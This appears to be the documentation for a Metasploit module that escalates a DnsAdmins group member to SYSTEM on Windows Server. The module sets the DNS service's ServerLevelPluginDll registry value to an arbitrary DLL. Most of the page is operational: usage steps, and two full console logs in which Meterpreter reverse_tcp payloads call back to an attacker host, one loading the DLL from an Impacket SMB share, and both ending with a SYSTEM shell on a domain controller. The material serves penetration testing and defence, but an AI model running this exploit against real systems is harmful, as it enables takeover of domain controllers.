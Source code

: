 ## Introduction
This module exploits a feature in the DNS service of Windows Server. Users of the DnsAdmins group can set the
`ServerLevelPluginDll` value using dnscmd.exe to create a registry key at `HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters\`
named `ServerLevelPluginDll` that can be made to point to an arbitrary DLL. After doing so, restarting the service will load the DLL
and cause it to execute, providing us with SYSTEM privileges. Using the Metasploit-generated DLL will cause the service to become
unresponsive, and will require removing the registry key and rebooting to get it working again.

## Vulnerable Application

Windows Server 2003 and above

## Verification Steps

1. Get a Meterpreter shell
2. `use exploit/windows/local/dnsadmin_serverlevelplugindll`
3. `set PAYLOAD <payload>`
4. `set LHOST <lhost>`
5. `set LPORT <lport>`
6. `set SESSION <session_no>`
7. `set DLLNAME <dllname>` if you want to name your DLL something other than `msf.dll`
8. `set DLLPATH <dllpath>` if you want to place your DLL somewhere other than `%TEMP%` or want to use a UNC path
9. `exploit` to get SYSTEM shell

## Options

  **DLLNAME**
  Name of the DLL to use.

  **DLLPATH**
  Location of the DLL to use. If a UNC path is provided, the module assumes that the operator already has the prerequisites:
  1. A working SMB2 share (use Impacket's `smbserver.py` to quickly set up one)
  2. A DLL of the same architecture as the target system

## Scenarios

### Windows Server 2019 Standard x64, writing `msf.dll` to `%TEMP%`
```
PAYLOAD => windows/x64/meterpreter/reverse_tcp
LHOST => 192.168.137.128
LPORT => 4444
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.137.128:4444 
msf5 exploit(multi/handler) >
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 192.168.137.133:58249) at 2020-02-25 01:40:24 +0800

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.128:4444 -> 192.168.137.133:58249 (192.168.137.133)

msf5 exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Running check against DC01 as user BASILISKCORP\salazar...
[+] DNS service found on DC01.
[+] User BASILISKCORP\salazar is part of the DnsAdmins group.
[+] User BASILISKCORP\salazar can start/stop the DNS service.
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Creating the payload DLL (x64)...
[*] Writing DLL to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[*] Modifying ServerLevelPluginDll to point to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.128:4444 -> 192.168.137.133:58255) at 2020-02-25 01:40:49 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### Windows Server 2019 Standard x64, specifying a UNC path for ServerLevelPluginDll
The fastest way to get a share up and running is to use Impacket's `smbserver`:
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -ip 192.168.137.128 test ./`
```
PAYLOAD => windows/x64/meterpreter/reverse_tcp
LHOST => 192.168.137.128
LPORT => 4444
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.137.128:4444 
msf5 exploit(multi/handler) >
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 192.168.137.133:52968) at 2020-02-25 01:43:48 +0800
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.128:4444 -> 192.168.137.133:52968 (192.168.137.133)

msf5 exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLPATH \\\\192.168.137.128\\test
DLLPATH => \\192.168.137.128\test
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME test.dll
DLLNAME => test.dll
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Running check against DC01 as user BASILISKCORP\salazar...
[+] DNS service found on DC01.
[+] User BASILISKCORP\salazar is part of the DnsAdmins group.
[+] User BASILISKCORP\salazar can start/stop the DNS service.
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Using user-provided UNC path.
[*] Modifying ServerLevelPluginDll to point to \\192.168.137.128\test\test.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.128:4444 -> 192.168.137.133:52986) at 2020-02-25 01:46:06 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```